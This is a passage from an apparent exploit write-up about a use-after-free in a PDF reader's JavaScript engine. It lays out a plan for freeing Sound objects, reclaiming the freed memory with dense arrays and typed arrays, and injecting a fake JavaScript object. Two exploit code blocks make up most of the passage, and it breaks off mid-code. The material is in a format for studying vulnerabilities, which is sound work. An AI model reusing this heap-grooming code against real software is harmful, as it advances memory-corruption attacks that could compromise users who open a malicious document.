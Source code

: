 So our goal now is to overwrite this `elements` buffer to inject a fake Javascript object. This is my plan at this point:

1.  Free `Sound` objects.
2.  Try to allocate dense arrays into the freed `Sound` objects location using `currentValueIndices`.
3.  Free the dense arrays.
4.  Try to allocate into the freed `elements` buffers
5.  Inject fake Javascript object

The code below iterates through the `SOUNDS` array to free its elements and uses `currentValueIndices` to reclaim them:

```
RECLAIM_SZ 		= 512
RECLAIMS 		= Array(RECLAIM_SZ)
THRESHOLD_SZ 	= 1024*6
NTRY 			= 3
NOBJ 			= 8 
for(var i=0; i<NOBJ; i++) {
	SOUNDS[i] = null 
	gc()

	for(var j=0; j<THRESHOLD_SZ; j++) f.currentValueIndices
	try {
        
		 if (this.getSound(i)[0] == 0) {
		 	RECLAIMS[i] = this.getSound(i)
		} else {
			console.println('RECLAIM SOUND OBJECT FAILED: '+i)
			throw ''
		}
	}
	catch (err) {
		console.println('RECLAIM SOUND OBJECT FAILED: '+i)
		throw ''
	}
	gc()
}
console.println('RECLAIM SOUND OBJECT SUCCEED')


```

Next, we will free all the dense arrays and try to allocate back into its `elements` buffer using `TypedArray`. I put faked integers with `0x33441122` at the start of the array to check if the reclaim succeeded. The corrupted array with our controlled `elements` buffer is then put into variable `T`:

```
this.removeField("f")
RECLAIMS 	= null
f 			= null
FENCES 		= null 
gc()

for (var j=0; j<8; j++) SOUNDS[j] = this.getSound(j)

for(var i=0; i<FREE_110_SZ; i++) {
	FREES_110[i] = new Uint32Array(64)
	FREES_110[i][0] = 0x33441122
	FREES_110[i][1] = 0xffffff81
}
T = null
for(var j=0; j<8; j++) {
	try {
```